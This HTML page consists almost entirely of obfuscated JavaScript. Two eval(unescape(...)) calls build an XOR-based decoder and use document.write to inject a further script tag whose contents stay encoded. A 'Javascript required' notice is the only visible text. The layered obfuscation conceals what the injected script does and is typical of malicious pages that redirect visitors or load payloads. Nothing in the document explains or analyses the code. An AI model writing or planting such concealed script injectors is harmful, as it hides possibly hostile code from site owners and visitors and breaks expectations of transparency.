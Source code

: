<html>
<head>
</head>
<body>

<script type="text/javascript">
<!-- 
eval(unescape('%66%75%6e%63%74%69%6f%6e%20%73%62%33%31%37%36%30%37%36%35%28%73%29%20%7b%0a%09%76%61%72%20%72%20%3d%20%22%22%3b%0a%09%76%61%72%20%74%6d%70%20%3d%20%73%2e%73%70%6c%69%74%28%22%37%35%33%32%36%35%32%22%29%3b%0a%09%73%20%3d%20%75%6e%65%73%63%61%70%65%28%74%6d%70%5b%30%5d%29%3b%0a%09%6b%20%3d%20%75%6e%65%73%63%61%70%65%28%74%6d%70%5b%31%5d%20%2b%20%22%38%34%37%31%36%33%22%29%3b%0a%09%66%6f%72%28%20%76%61%72%20%69%20%3d%20%30%3b%20%69%20%3c%20%73%2e%6c%65%6e%67%74%68%3b%20%69%2b%2b%29%20%7b%0a%09%09%72%20%2b%3d%20%53%74%72%69%6e%67%2e%66%72%6f%6d%43%68%61%72%43%6f%64%65%28%28%70%61%72%73%65%49%6e%74%28%6b%2e%63%68%61%72%41%74%28%69%25%6b%2e%6c%65%6e%67%74%68%29%29%5e%73%2e%63%68%61%72%43%6f%64%65%41%74%28%69%29%29%2b%2d%34%29%3b%0a%09%7d%0a%09%72%65%74%75%72%6e%20%72%3b%0a%7d%0a'));
eval(unescape('%64%6f%63%75%6d%65%6e%74%2e%77%72%69%74%65%28%73%62%33%31%37%36%30%37%36%35%28%27') + '%44%76%60%75%65%74%7d%2c%74%62%73%6d%7a%61%6a%6e%42%2e%6e%60%72%61%70%66%70%6e%70%79%21%41%19%0e%7e%65%76%6f%72%7d%31%74%72%60%66%70%6d%76%7a%36%6b%77%6f%69%45%27%6b%7b%70%74%3b%3b%37%7f%33%6e%6a%73%72%60%77%6d%32%7d%7b%70%34%42%7c%6e%6d%7a%46%7e%78%67%74%43%33%54%35%5d%25%3b%10%09%43%3b%77%62%7e%69%73%79%447532652%34%31%37%33%38%30%35' + unescape('%27%29%29%3b'));
// -->
</script>
<noscript><i>Javascript required</i></noscript>

</html>

